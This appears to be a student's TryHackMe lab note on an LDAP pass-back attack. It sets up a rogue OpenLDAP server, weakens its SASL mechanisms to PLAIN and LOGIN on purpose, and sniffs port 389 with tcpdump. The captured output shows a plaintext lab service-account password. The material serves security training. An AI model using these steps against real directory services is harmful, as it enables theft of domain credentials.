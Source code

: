 # Hosting a Rogue LDAP Server
```sh
# Install OpenLAP
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd

# Configure Rogue LDAP Server
sudo dpkg-reconfigure -p low slapd
```

![[Pasted image 20230621104743.png]]

For the DNS domain name, you want to provide our *target domain*, which is `za.tryhackme.com` in this case![[Pasted image 20230621104815.png]]

Use this same name for the *Organisation name* as well
![[Pasted image 20230621104831.png]]
![[Pasted image 20230621104839.png]]
![[Pasted image 20230621104844.png]]
![[Pasted image 20230621104853.png]]
![[Pasted image 20230621104858.png]]


Before using the rogue LDAP server, we need to **make it vulnerable by downgrading the supported authentication mechanisms**. We want to ensure that our LDAP server only supports `PLAIN` and `LOGIN` authentication methods.
To do this, we need to create a new `ldif` file :-
```sh
aaryan11x$: cat olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps 
olcSaslSecProps: noanonymous,minssf=0,passcred
```

-   **olcSaslSecProps:** Specifies the SASL security properties
-   **noanonymous:** Disables mechanisms that support anonymous login
-   **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

 Use the `ldif` file to patch our LDAP server
 ```sh
 sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

Verify that our rogue LDAP server's *configuration has been applied* :-
```sh
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms

dn: 
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

---
## Capturing LDAP Credentials

Since the default port of LDAP is `389`, we can use the following command :-
```sh
sudo tcpdump -SX -i breachad tcp port 389

# When we get a response, we'll recieve the Login Credentials in Plaintext
10:41:52.980162 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [P.], seq 1113052386:1113052440, ack 4245946151, win 502, length 54
0x0000: 4500 005e 247e 4000 4006 ed06 0a0a 0a39 E..^$~@.@......9
0x0010: 0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27 ........BW.....'
0x0020: 5018 01f6 2966 0000 3034 0201 0264 2f04 P...)f..04...d/.
0x0030: 0030 2b30 2904 1773 7570 706f 7274 6564 .0+0)..supported
0x0040: 5341 534c 4d65 6368 616e 6973 6d73 310e SASLMechanisms1.
0x0050: 0405 504c 4149 4e04 054c 4f47 494e ..PLAIN..LOGIN
[....]
10:41:52.987145 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [.], ack 3088612909, win 8212, length 0
0x0000: 4500 0028 b092 4000 8006 2128 0a0a 0ac9 E..(..@...!(....
0x0010: 0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d ...9.......J..~-
0x0020: 5010 2014 0ae4 0000 0000 0000 0000 P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
0x0000: 4500 0069 b093 4000 8006 20e6 0a0a 0ac9 E..i..@.........
0x0010: 0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d ...9.......J..~-
0x0020: 5018 2014 3afe 0000 3084 0000 003b 0201 P...:...0....;..
0x0030: 0560 8400 0000 3202 0102 0418 7a61 2e74 .`....2.....za.t 
0x0040: 7279 6861 636b 6d65 2e63 6f6d 5c73 7663 ryhackme.com\svc
0x0050: 4c44 4150 8013 7472 7968 6163 6b6d 656c LDAP..password11
```
